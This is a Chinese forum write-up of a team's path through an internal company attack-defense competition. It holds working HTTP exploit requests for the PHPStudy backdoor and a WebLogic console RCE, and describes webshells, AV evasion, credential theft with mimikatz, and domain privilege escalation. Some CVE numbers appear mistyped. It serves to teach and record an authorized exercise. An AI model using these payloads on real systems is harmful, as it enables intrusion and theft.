




# 奇安信攻防社区-一次内部攻防对抗比赛记录

### 一次内部攻防对抗比赛记录

前段时间公司内部举行了为期一周的攻防对抗比赛，在这里分享下我们队的攻击过程，如果有不足之处还望各位大佬多多包涵。

# 0x00 前言

这次比赛的靶标是拿到商业计划书，给的入口信息只有一个域名www.xxx-qq.com

# 0x01 域名信息搜集

在线扫描子域名， 发现4个子域名及4个IP：  
  
收集到子域名后，使用fscan扫一波信息(忘截图了)，接着开始打点

# 0x02 172.31.40.136 PHPStudy命令执行

扫描目录发现PHP探针文件，其中l.php中暴露了绝对路径，并且发现使用了PHPstudy  
  
  
从l.php可以看出探针版本是较早的，就联想到之前的PHPStudy后门事件，然后就试着打了一发POC，成功执行了命令：

```php
GET /phpinfo.php HTTP/1.1

Host: 172.31.40.136:8080

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

X-Forwarded-For: 172.31.40.136

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip,deflate

Accept-Charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7

Connection: close

Upgrade-Insecure-Requests: 1
```



此时能够执行命令，又知道web绝对路径，利用命令执行写入webshell，这里用的是powershell命令写入，更简便的方法是利用PHP写文件函数写入：


写入成功后使用蚁剑连接webshell：


# 0x03 172.31.40.235 文件上传+nginx解析漏洞

扫描目录，发现文件上传页面：




刚开始以为这里只是一个简单的文件上传漏洞，结果上传的时候发现有白名单限制，没绕过去，就决定再搜集下信息。然后发现使用了nginx，并且版本为1.15.11，此时联想到了这个版本存在解析漏洞，在文件后面加上.php就会把这个文件解析成PHP文件


**文件上传+Nginx解析漏洞利用：**

制作图片马上传，然后利用解析漏洞getshell



蚁剑连接：

webshell的为[http://172.31.40.235:8080/upload/tiantian.jpg/.php](http://172.31.40.235:8080/upload/tiantian.jpg/.php)


# 0x04 172.31.35.129 ssh弱口令

刚开始打算从web侧进行突破，但是迟迟没有进展，就决定爆破一波弱口令，就发现了一个SSH弱口令账号test/123456


目前已经拿到了DMZ区的3个权限，准备搭个frp代理出来。因为拿到了172.31.35.129这台主机的SSH账号和密码，这样的话维权也比较方便，就在172.31.35.129上搭建了frp代理


本地连上frp代理后，同样使用fscan对C段进行扫描，然后快速打点：


# 0x05 192.168.11.26 weblogic CVE-2020-12882命令执行

发现192.168.11.26是weblogic，然后打了一波weblogic命令执行EXP，发现存在CVE-2020-12882漏洞

```php
GET /console/css/%252e%252e%252fconsolejndi.portal?test\_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String\[\]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String\[\]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String\[\]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1

Host: 192.168.11.26:7001

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

cmd: cat /etc/passwd

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

X-Forwarded-For: 172.31.40.99

Accept-Encoding: gzip, deflate

Connection: close

Cookie: ADMINCONSOLESESSION=WHqrvH8XRq2j2nId4ceZgd2kL6Efx8jIdDF5dORfgPHTtTIriMAe!1051469142

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```


执行命令反弹shell失败，猜测被waf拦截，然后通过下载sh文件执行，成功反弹shell：


# 0x06 192.168.11.124 后台文件上传

192.168.11.124上是一个Textpattern CMS，前台是一个登录页面

扫描目录发现备份文件backup.zip：


在config.php中发现账号和密码：


使用账号密码登录后台：


后台可以直接上传PHP文件，直接上传冰蝎马：


冰蝎连接webshell：


拿到的以上主机，发现都不是NAT，没找到在办公区的主机。猜想是因为信息收集工作不到位，存活主机没搜集全，然后在已经获得权限的主机上收集其他存活主机，

在192.168.11.27(172.31.35.129)这台主机上查看arp列表，发现几台之前未发现的主机，猜想是因为之前用fscan扫描时没加上-np（不使用ping）的原因


使用fscan对新发现的主机进行简单扫描，然后进行利用

# 0x07192.168.11.180 fastjson远程命令执行

192.168.11.180入口是一个登录页面，抓包发现是json格式，尝试打一波fastjson远程命令执行，发现dnslog有解析记录（忘截图了）。在写入webshell时折腾了很久，因为找不到web绝对路径，然后就只能不断的执行命令翻目录，最后终于找到了绝对路径


写入base64编码后的jsp webshell：


使用certuil进行解码：


蚁剑连接webshell:


# 0x08 192.168.11.12 redits弱密码getshell

使用fcan单个扫描发现redits弱密码admin123，同时发现开了8080端口


尝试反弹shell未果，着手从8080端口入手，扫描目录发现test.php


访问test.php发现为phpinfo页面，泄露了网站绝对路径


然后利用redits写入webshell：


蚁剑成功连接webshell：


部分命令无回显，利用webshell上传nc.exe反弹shell，nc反弹的shell可以绕过杀软进程链拦截



成功返回shell并发现了172网段


在192.168.11.12这台主机上搭建代理


再次利用fscan工具对172网段进行扫描


# 0x09 172.32.10.30 SMB共享泄露密码

爆破C段445和139端口，发现172.32.10.30存在smb未授权，用smbclient连接，在文件中发现账号和密码


使用psexec和smbexec连接失败，应该是被杀软拦截了，最后发现使用wmi可以远程执行命令


# 0x10 172.32.10.59 Apache log4j2远程命令执行

发现172.32.10.59在端口8080、7777和8899开放了web服务，但访问首页内容基本没啥信息。扫描目录在172.32.10.59:7777/test.txt中发现提示，刚开始时并不知道这是一个提示，后面才意识到这可能是一个提示(23333333)


加上路径publiccms扫描8080、7777、8899端口上的目录，在8080上发现publiccms文件路径：


访问登录页面使用弱口令登入未果，因为对这个CMS不了解，就尝试在github上搜一下源码，发现最新版有关于log4j的更新  
项目地址：[https://github.com/sanluan/PublicCMS/tree/master/publiccms-parent](https://github.com/sanluan/PublicCMS/tree/master/publiccms-parent)


在登录页面尝试log4j2远程命令执行，发现dnslog有记录

  
使用命令回显payload：


发现主机上有火绒，直接添加用户被拦截，先执行命令将net1.exe复制为aaa.txt

  
执行powershell命令绕过火绒添加用户，空密码(更好的方法是激活guest用户，但当时我忘记将guest用户添加到管理组了，就无法远程登陆，后面才反应过来)


修改密码，并添加到管理组：


远程桌面，发现RDP端口不是3389，扫一波全端口，发现端口33389，顺利进入远程桌面


远程桌面后上线CS，搜集本地信息，发现RDP连接记录：


尝试在CS上执行mimikatz命令破解RDP连接密码，但由于版本原因报错了，之后上传到本地mimikatz破解连接密码  
得到域用户名：dev\\user02 密码：1QvNpiXSVR


远程172.32.10.234桌面，发现10网段


简单域信息搜集，域名dev.corp1.com，域控IP 10.5.12.248


发现主机不出网，域内有AppLocker限制，但可以执行dll。拿到的域账号权限很低，无法登录其他主机。在172.32.10.59上搭建会话中转，然后生成beacon.dll文件执行上线CS


# 0x11 10.5.12.248（DEV01）

利用CS会话搭建socks4a代理后利用CVE-2021-42887域用户提权漏洞打域控：


利用CVE-2021-42887域用户提权漏洞打域控后，当时打成功后没有及时进行权限维持和利用，截完图就下班了，第二天发现打不了了，因为机器账户已经达到限制，很可惜。然后尝试使用其他域用户提权漏洞打均没有成功，然后接下来我的思路是绕过域内的AppLocker限制提权，结果一直未成功，最后因为时间原因不得不到此为止。

# 0x12 总结

这次攻防比赛感觉入口点比较简单，难点在于后面的域渗透，在这期间我们不断转换思路，前期的思路是快速打点，突破网段隔离。到办公区后发现从web侧突破较难，就开始中注重本机的信息搜集，然后横向利用。
